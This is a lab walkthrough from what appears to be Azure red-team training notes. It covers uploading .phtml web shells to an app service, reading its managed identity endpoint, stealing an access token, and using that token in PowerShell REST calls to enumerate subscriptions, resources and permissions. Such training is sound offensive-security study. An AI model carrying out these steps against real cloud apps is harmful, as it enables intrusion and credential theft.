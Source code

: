 # Abusing Identity Endpoint

We can upload .phtml files using the file upload functionality. Use the studentxshell.phtml from the Tools directory on your student VM (which is a super simple web shell)

After uploading the web shell, access it and pass the 'env' command to check if a managed identity is assigned to the app service. Look for environment variables IDENTITY\_HEADER and IDENTITY\_ENDPOINT in the output of https://defcorphqcareer.azurewebsites.net/uploads/studentxshell.phtml?cmd=env

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

We can use a simple curl command to get the access token using the IDENTITY\_ENDPOINT AND IDENTITY\_HEADER. Let's upload another webshell studentxtoken.phtml for that. Access it by browsing to https://defcorphqcareer.azurewebsites.net/uploads/studentxtoken.phtml:

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use the access token and client ID from above with Az PowerShell. But Az PowerShell’s Get-AzRoleAssignment would not show us the permissions for the current token. It would show role assignments only to ObjectIDs (no way to get the ObjectID of the Manged Identity token that we have).

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

To resolve Object IDs to SignInName, we could request MS Graph tokens. While we can request both the tokes, for now, let's fall back to manual API calls for enumeration. Let's use the token with Azure REST API. We would need the subscription ID, use the code below to request it:

```powershell
$Token =  'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token" 
    }
}
(Invoke-RestMethod @RequestParams).value 
```

List all resources accessible for the managed identity assigned to the app service. Note that the only difference is the URI

```
$Token =  'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token" 
    }
}
(Invoke-RestMethod @RequestParams).value 

```

Let's see what actions are allowed using the below code:

```
$Token =  'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/providers/Microsoft.Authorization/permissions?api-version=2015-07-01'

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token" 
    }
}
(Invoke-RestMethod @RequestParams).value

```

